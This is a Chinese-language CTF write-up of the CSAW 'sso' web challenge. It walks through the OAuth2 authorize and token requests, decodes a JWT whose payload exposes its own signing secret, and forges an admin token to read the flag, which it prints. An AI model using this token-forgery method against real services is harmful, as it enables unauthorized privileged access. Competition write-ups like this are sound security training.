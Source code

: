 # sso

這題是OAuth2的SSO

從註解可以看到:

`/oauth2/authorize` 和 `/oauth2/token`

另外還有 `/protected`

前兩個主要是用來做OAuth2 SSO的

後面那個可以推測是成功認證可以存取flag的頁面


翻一下OAuth2的標準

可以知道`/oauth2/authorize`要POST送的參數為:

`response_type=code&client_id=a&state=b&redirect_uri=http://web.chal.csaw.io:9000/protected`

送完之後，會拿到一段authorize code (在redirect後的網址上)

e.g. `code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhIiwicmVkaXJlY3RfdXJpIjoiaHR0cDovL3dlYi5jaGFsLmNzYXcuaW86OTAwMC9wcm90ZWN0ZWQiLCJ0eXBlIjoidXNlciIsImlhdCI6MTUzNzA4ODg4MiwiZXhwIjoxNTM3MDg5NDgyfQ.7dHJf84u7VZmxosk5SfWvbXmaOcOWZdfRMiXPq42fEA`

再把這段code塞到`/oauth2/token`要POST的參數上:

`grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_id=&code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhIiwicmVkaXJlY3RfdXJpIjoiaHR0cDovL3dlYi5jaGFsLmNzYXcuaW86OTAwMC9wcm90ZWN0ZWQiLCJ0eXBlIjoidXNlciIsImlhdCI6MTUzNzA4ODg4MiwiZXhwIjoxNTM3MDg5NDgyfQ.7dHJf84u7VZmxosk5SfWvbXmaOcOWZdfRMiXPq42fEA&state=b`

成功的話，會拿到Bearer token:

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA4ODk5MCwiZXhwIjoxNTM3MDg5NTkwfQ.pSpNGukhnNXYG1PAVdBQh2ikEPAvA_RqoQukNSMB0GM`

這個token是JWT token

JWT Payload長這樣:

```
{
  "type": "user",
  "secret": "ufoundme!",
  "iat": 1537088990,
  "exp": 1537089590
}
```

他直接把secret給我們，然後那個type很明顯要我們改成`admin`

所以改完之後，重新生JWT的signature:

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwODg5OTAsImV4cCI6MTUzNzA4OTU5MH0.8dIKXYIIaXBMefhxvE5KRYIhac6HcrAXEWXNi1k7RJ4`

再來就把JWT token塞到header中後，去訪問`/protected`就能拿到flag:

`Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwODg5OTAsImV4cCI6MTUzNzA4OTU5MH0.8dIKXYIIaXBMefhxvE5KRYIhac6HcrAXEWXNi1k7RJ4`

`flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

